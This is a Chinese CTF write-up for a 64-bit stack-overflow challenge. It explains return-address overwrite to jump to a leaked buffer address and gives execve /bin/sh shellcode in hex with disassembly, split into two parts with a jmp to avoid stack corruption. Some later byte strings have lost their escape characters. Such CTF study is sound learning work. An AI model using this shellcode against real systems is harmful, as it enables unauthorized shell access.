 # shiyanba--pwn--pilot

```
	Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

堆栈溢出的题目，主要是学习shellcode的使用

  题目会返回buf的地址

  我们往buf添加shellcode，然后溢出覆盖返回地址为buf的地址，最后就会执行shellcode

```
  -0000000000000020 buf             db ?
  -000000000000001F                 db ? ; undefined
  ...............
  -0000000000000002                 db ? ; undefined
  -0000000000000001                 db ? ; undefined
  +0000000000000000  s              db 8 dup(?)
  +0000000000000008  r              db 8 dup(?)

```

shellcode的制作

1.自带的shellcode生成器

32位:shellcraft.i386.linux.sh()

64位:shellcraft.amd64.linux.sh()

2.通过著名的shell-storm.org的shellcode数据库shell-storm.org/shellcode/

```
shellcode = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
#xor rdx, rdx
#mov rbx, 0x68732f6e69622f2f
#shr rbx, 0x8
#push rbx
#mov rdi, rsp
#push rax
#push rdi
#mov rsi, rsp
#mov al, 0x3b
#syscall

```

但执行时发生错误

原因是  在push rdi  时 把我们的shellcode给覆盖了

![1](C:\Users\kOX\Desktop\1.png)

![2](C:\Users\kOX\Desktop\2.png)

![3](C:\Users\kOX\Desktop\3.png)

![4](C:\Users\kOX\Desktop\4.png)

我们可以找短一点的shellcode，但比较难找

于是我们进行改造shellcode

因为可以打破汇编代码执行的连续性的指令就那么几种，call，ret和跳转。前两条指令都会影响到寄存器和栈的状态，因此我们只能选择使用跳转中的无条件跳转jmp。

栈溢出最多可以向栈中写0x40=64个字节。结合对这个题目的分析可知在返回地址之后还有16个字节的空间可写。根据这四张图显示出来的结果，push rdi执行后下一条指令就会被修改，因此我们可以考虑把shellcode在push rax和push rdi之间分拆成两段，此时push rdi之后的shellcode片段为8个字节，小于16字节，可以容纳。



简单来说，就是把shellcode分为两段，第一段就变小了，push rdi时就不会覆盖到我们的shellcode，跳转指令会跳到第二段shellcode继续执行。

```
#shellcode = "x48x31xd2x48xbbx2fx2fx62x69x6ex2fx73x68x48xc1xebx08x53x48x89xe7x50x57x48x89xe6xb0x3bx0fx05"
#原始的shellcode。由于shellcode位于栈上，运行到push rdi时栈顶正好到了x89xe6xb0x3bx0fx05处，rdi的值会覆盖掉这部分shellcode，从而导致执行失败，所以需要对其进行拆分
#xor rdx, rdx
#mov rbx, 0x68732f6e69622f2f
#shr rbx, 0x8
#push rbx
#mov rdi, rsp
#push rax
#push rdi
#mov rsi, rsp
#mov al, 0x3b
#syscall

shellcode1 = "x48x31xd2x48xbbx2fx2fx62x69x6ex2fx73x68x48xc1xebx08x53x48x89xe7x50"
#第一部分shellcode，长度较短，避免尾部被push rdi污染
#xor rdx, rdx
#mov rbx, 0x68732f6e69622f2f
#shr rbx, 0x8
#push rbx
#mov rdi, rsp
#push rax

shellcode1 += "xebx18"
#使用一个跳转跳过被push rid污染的数据，接上第二部分shellcode继续执行
#jmp short $+18h

shellcode2 = "x57x48x89xe6xb0x3bx0fx05"
#第二部分shellcode
#push rdi
#mov rsi, rsp
#mov al, 0x3b
#syscall

```

